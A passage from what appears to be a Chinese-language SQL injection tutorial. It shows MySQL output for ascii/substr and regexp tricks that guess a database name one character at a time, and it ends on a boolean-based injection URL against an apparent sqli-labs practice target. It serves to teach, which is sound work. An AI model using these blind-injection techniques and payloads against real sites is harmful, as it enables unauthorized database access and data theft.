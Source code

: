 可见只是第一个字符`s`的ascii码值

`ascii()`函数等同于`ord()`函数

```
mysql> select ascii(substr(database(),1,1));
+-------------------------------+
| ascii(substr(database(),1,1)) |
+-------------------------------+
|                           115 |
+-------------------------------+
1 row in set (0.00 sec)


mysql> select ascii(substr(database(),1,2));
+-------------------------------+
| ascii(substr(database(),1,2)) |
+-------------------------------+
|                           115 |
+-------------------------------+
1 row in set (0.00 sec)
```

`regexp正则注入`

```
mysql> select database() regexp '^se';
+-------------------------+
| database() regexp '^se' |
+-------------------------+
|                       1 |
+-------------------------+

1 row in set (0.00 sec)

mysql> select database() regexp '^[a-z]';
+----------------------------+
| database() regexp '^[a-z]' |
+----------------------------+
|                          1 |
+----------------------------+
1 row in set (0.00 sec)

mysql> select database() regexp '^ec';
+-------------------------+
| database() regexp '^ec' |
+-------------------------+
|                       0 |
+-------------------------+
1 row in set (0.00 sec)
```

那么回到起点，我们测试一下基于布尔的sql注入要怎么做

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=1--+`
